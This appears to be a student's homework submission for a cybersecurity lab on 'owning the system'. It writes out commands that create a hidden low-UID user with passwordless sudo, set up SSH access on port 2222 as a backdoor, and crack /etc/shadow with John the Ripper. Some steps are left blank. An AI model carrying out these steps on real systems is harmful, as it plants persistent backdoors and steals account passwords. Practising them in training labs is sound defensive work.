Week 6 Homework Submission File: Advanced Bash - Owning the System
Step 1: Shadow People
Create a secret user named sysd. Make sure this user doesn't have a home folder created:
root:~\ $ useradd --no-create-home sysd

Give your secret user a password:
root:~\ $ passwd sysd

Give your secret user a system UID < 1000:
root:~\ $ usermod -u 37 sysd

Give your secret user the same GID:
root:~\ $ usermod -u 37 -g 37 sysd 

Give your secret user full sudo access without the need for a password:
root:~\ $ visudo

#includedir /etc/sudoers.d
sysd ALL=(ALL) NOPASSWD:ALL
Test that sudo access works without your password: 
$ su sysd
$ sudo -k
$ sudo -v
$ sudo -l


Step 2: Smooth Sailing
Edit the sshd_config file:


Step 3: Testing Your Configuration Update
Restart the SSH service:
 root:~\ $ systemctl restart sshd

Exit the root account:
root:~\ $ exit
sysadmin:~\ $ exit

SSH to the target machine using your sysd account and port 2222:
sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

Use sudo to switch to the root user:
$ sudo su

Step 4: Crack All the Passwords
SSH back to the system using your sysd account and port 2222:
root@scavenger-hunt:/# ssh sysd@192.168.6.105 -p 2222

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
$ sudo john /etc/shadow
(See below)


